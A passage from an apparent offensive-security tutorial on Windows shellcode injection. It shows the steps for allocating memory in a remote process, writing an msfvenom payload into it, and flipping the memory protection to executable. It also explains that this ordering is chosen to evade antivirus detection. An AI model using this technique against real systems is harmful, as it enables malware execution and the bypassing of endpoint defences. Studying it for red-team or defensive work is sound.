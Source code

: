 Since we have the payload now, we can just paste the C output from `msfvenom` into our code, and the call `VirtualAllocEx`:

```C
HANDLE pAddr = VirtualAllocEx(hProcess, NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
```

This will use the `hProcess` handle acquired from the previous function, and allocate 460 (in this case) bytes of memory in the remote process. The memory allocation pages are committed and reserved (pretty much ready for work), and the memory protection is set to read and write only.

### Step 3 - Writing the payload to the allocated memory

Allocating memory is different than writing to it. For instance, after we allocated memory with `VirtualAllocEx` API call, 460 bytes are reserved but empty. Now we need to write our payload inside. Again, calling the Win32 API [WriteProcessMemory](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory) should be simple after following its signature:

```C
BOOL WriteProcessMemory(
  [in]  HANDLE  hProcess,
  [in]  LPVOID  lpBaseAddress,
  [in]  LPCVOID lpBuffer,
  [in]  SIZE_T  nSize,
  [out] SIZE_T  *lpNumberOfBytesWritten
);
```

Which resolves into:

```C
WriteProcessMemory(hProcess, pAddr, buf, sizeof(buf), NULL);
```

This syntax just writes the contents of the `buf` variable inside the address allocated from the previous step. Keep an eye on the size, if you mismatch it your payload will not gonna work.

### Step 4 - Changing memory protections

Now we need to change the memory protection settings from read and write, to read and execute. Without the executive primitives, the written payload to the memory will never be executed. We do this because allocating memory directly with executive primitives is huge IOC and many vendors will catch it right off the bat. While there are many approaches to be more evasive on that, like finding a process with executable memory by default, I want to keep things simple.

Here we can use the [VirtualProtectEx](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotectex) Win32 API:
```C
BOOL VirtualProtectEx(
  [in]  HANDLE hProcess,
  [in]  LPVOID lpAddress,
  [in]  SIZE_T dwSize,
  [in]  DWORD  flNewProtect,
  [out] PDWORD lpflOldProtect
);
```
